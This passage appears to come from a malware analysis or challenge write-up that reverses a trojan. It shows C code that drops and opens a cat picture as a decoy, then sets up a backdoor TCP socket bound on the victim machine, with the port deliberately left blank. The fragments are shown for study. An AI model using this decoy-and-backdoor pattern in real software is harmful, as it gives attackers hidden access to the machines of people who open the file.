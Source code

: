 ```c
size_t decoded_length;
    unsigned char* decoded_image = base64_decode(base64_image, strlen(base64_image), &decoded_length);
    if (decoded_image == NULL) {
        printf("Failed to decode image.\n");
        return 1;
    }

    FILE* file = fopen("gato_haker.png", "wb");
    if (!file) {
        printf("Failed to open file for writing.\n");
        free(decoded_image);
        return 1;
    }
    fwrite(decoded_image, 1, decoded_length, file);
    fclose(file);
    free(decoded_image);

    ShellExecute(NULL, "open", "gato_haker.png", NULL, NULL, SW_SHOW);
    // So this why it still displayed a cat picture!!
```

Now, scrolling to the juicy part of our code, we can read the few lines that the attacker used to launch a remote socket on the target pc, specifying the necessary parameters.

The following lines demonstrate how the malware creates a socket for the backdoor connection:

```c
// Create the socket for backdoor
sockfd = socket(AF_INET, SOCK_STREAM, 0);
if (sockfd == INVALID_SOCKET) {
    printf("ERROR opening socket\n");
    WSACleanup();
    return 1;
}
```

socket(AF_INET, SOCK_STREAM, 0) creates a TCP socket. If the socket creation fails, it prints an error message and cleans up the Winsock environment, AF_INET specifies that the socket will use IPv4 addresses, while SOCK_STREAM indicates that it will be a stream-oriented socket (TCP).

```c
memset((char *) &serv_addr, 0, sizeof(serv_addr));
serv_addr.sin_family = AF_INET;
serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // Note from author: 127.0.0.1 is your loopback address, you could create a script to test this backdoor on your own pc if you want. You just need to figure out the port.

serv_addr.sin_port = 00000;  // It got lost while reversing the code :(.
// Ressource monitor might be useful they told me.

// Bind the socket to the port
if (bind(sockfd, (struct sockaddr *) &serv_addr, sizeof(serv_addr)) == SOCKET_ERROR) {
    printf("ERROR on binding\n");
    closesocket(sockfd);
    WSACleanup();
    return 1;
}
```

